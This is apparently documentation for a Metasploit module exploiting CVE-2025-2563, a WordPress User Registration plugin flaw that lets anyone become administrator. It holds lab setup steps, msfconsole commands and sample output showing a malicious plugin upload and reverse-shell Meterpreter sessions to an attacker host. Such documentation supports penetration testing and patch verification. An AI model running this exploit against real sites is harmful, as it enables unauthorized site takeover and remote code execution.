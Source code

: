 ## Vulnerable Application

This Metasploit module exploits an unauthenticated privilege escalation in the
WordPress User Registration & Membership plugin (Free ≤ 4.1.2, Pro ≤ 5.1.2) (CVE-2025-2563).
When the Membership Addon is enabled, the plugin fails to prevent users from setting their
own account role, allowing anyone to escalate to administrator.

To replicate a vulnerable environment for testing:

1. Install WordPress using the provided Docker Compose configuration.
2. Download and install the User Registration plugin v4.1.1 (Free):
   [https://downloads.wordpress.org/plugin/user-registration.4.1.1.zip](https://downloads.wordpress.org/plugin/user-registration.4.1.1.zip)
3. Activate the plugin and enable the **Membership** Addon under:
   `/wp-admin/admin.php?page=user-registration-dashboard#features`.
4. No further configuration is required; vulnerability is present when the addon is active.
   - Permalinks must be enabled.

## Docker Compose Configuration

```yaml
services:

  wordpress:
    image: wordpress:6.3.2
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_ROOT_PASSWORD: dummy_password
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

Create a `custom.ini` file with:

```ini
upload_max_filesize = 64M
post_max_size = 64M
```

## Verification Steps

1. Start the environment:

```bash
docker-compose up -d
```

2. Complete WordPress setup at [http://localhost:5555](http://localhost:5555).
3. Confirm the User Registration v4.1.1 plugin is active under **Plugins**.
4. Enable the **Membership** Addon at `/wp-admin/admin.php?page=user-registration-dashboard#features`.
5. Launch `msfconsole`.
6. Load the module:

```bash
use exploit/multi/http/wp_user_registration_membership_escalation
```

7. Set `RHOSTS` to the target IP, and configure credentials:

```bash
set WP_USER eviluser
set WP_PASS Str0ngP@ss!
set WP_EMAIL eviluser@example.com
```

8. (Optional) Set `TARGETURI` if WordPress is installed in a subdirectory.
9. Run the exploit:

```bash
run
```

## Options

* **WP_USER**, **WP_PASS**, **WP_EMAIL**: Credentials for the new administrator account to be created.

## Scenarios

### Successful Exploitation

**Setup:**

* Local WordPress instance with User Registration v4.1.1 (Free) and Membership Addon enabled.
* Metasploit Framework

**Steps:**

1. Start `msfconsole`.
2. Load the module:
```bash
use exploit/multi/http/wp_user_registration_membership_escalation
```
3. Configure options:
```bash
set RHOSTS 127.0.0.1
set TARGETURI /
set WP_USER admin2
set WP_PASS P@ssw0rd!
set WP_EMAIL admin2@example.com
run
```

**Expected Results (PHP payload):**

```plaintext
msf6 exploit(multi/http/wp_user_registration_membership_escalation) > run http://lab:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.8.1
[+] Detected user-registration version 4.1.1
[+] The target appears to be vulnerable.
[*] Registering new user with free membership...
[+] User registered: eviluser
[*] Escalating to administrator...
[+] Administrator created: eviluser:Str0ngP@ss!
[*] Authenticating via wp-login.php…
[!] wp-login.php failed—trying plugin login page
[+] Authenticated via plugin login page
[*] Uploading malicious plugin...
[*] Executing payload at /wp-content/plugins/wp_rxrpu/ajax_1vxd2.php...
[*] Sending stage (40004 bytes) to 172.27.0.3
[+] Deleted ajax_1vxd2.php
[+] Deleted wp_rxrpu.php
[+] Deleted ../wp_rxrpu
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 172.27.0.3:41616) at 2025-05-09 16:55:20 +0200

meterpreter > sysinfo
Computer    : 111d64934b4f
OS          : Linux 111d64934b4f 6.14.2-2-cachyos #1 SMP PREEMPT_DYNAMIC Thu, 10 Apr 2025 17:27:10 +0000 x86_64
Meterpreter : php/linux
```

**Expected Results (Command payload):**

```plaintext
msf6 exploit(multi/http/wp_user_registration_membership_escalation) > run http://lab:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.8.1
[+] Detected user-registration version 4.1.1
[+] The target appears to be vulnerable.
[*] Registering new user with free membership...
[+] User registered: eviluser2
[*] Escalating to administrator...
[+] Administrator created: eviluser2:Str0ngP@ss!
[*] Authenticating via wp-login.php…
[!] wp-login.php failed—trying plugin login page
[+] Authenticated via plugin login page
[*] Uploading malicious plugin...
[*] Executing payload at /wp-content/plugins/wp_mwtqu/ajax_nncym.php...
[*] Sending stage (3045380 bytes) to 172.27.0.3
[+] Deleted ajax_nncym.php
[+] Deleted wp_mwtqu.php
[+] Deleted ../wp_mwtqu
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 172.27.0.3:59124) at 2025-05-09 16:56:39 +0200

meterpreter > sysinfo
Computer     : 172.27.0.3
OS           : Debian 12.10 (Linux 6.14.2-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
